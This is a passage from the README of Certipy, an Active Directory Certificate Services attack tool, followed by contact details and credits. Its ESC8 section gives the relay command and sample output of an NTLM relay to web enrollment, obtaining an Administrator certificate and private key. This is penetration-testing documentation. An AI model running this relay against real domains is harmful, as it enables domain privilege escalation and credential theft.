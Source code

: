 #### ESC8

ESC8 is when an Enrollment Service has installed and enabled Web Enrollment via HTTP.

To start the relay server, we can run the `relay` command and specify the CA's IP in `-ca`.

By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.

We can then use a technique such as [PetitPotam](https://github.com/ly4k/PetitPotam) to coerce authentication. For domain controllers, we must specify `-template DomainController`.

```bash
$ certipy relay -ca 172.16.19.100
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Targeting http://172.16.19.100/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server
[*] SMBD-Thread-2: Connection from CORP/ADMINISTRATOR@172.16.19.101 controlled, attacking target http://172.16.19.100
[*] Authenticating against http://172.16.19.100 as CORP/ADMINISTRATOR SUCCEED
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@ly4k_](https://twitter.com/ly4k_).

## Credits

- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify)
- [Dirk-jan](https://twitter.com/_dirkjan) for [PKINITtools](https://github.com/dirkjanm/PKINITtools)
- [ShutdownRepo](https://github.com/ShutdownRepo) for [PyWhisker](https://github.com/ShutdownRepo/pywhisker)
- [zer1t0](https://github.com/zer1t0) for [certi](https://github.com/zer1t0/certi)
- [Ex Android Dev](https://github.com/ExAndroidDev) and [Tw1sm](https://github.com/Tw1sm) for Impacket's [adcsattack.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/httpattacks/adcsattack.py)
- [SecureAuthCorp](https://github.com/SecureAuthCorp) for [Impacket](https://github.com/SecureAuthCorp/impacket)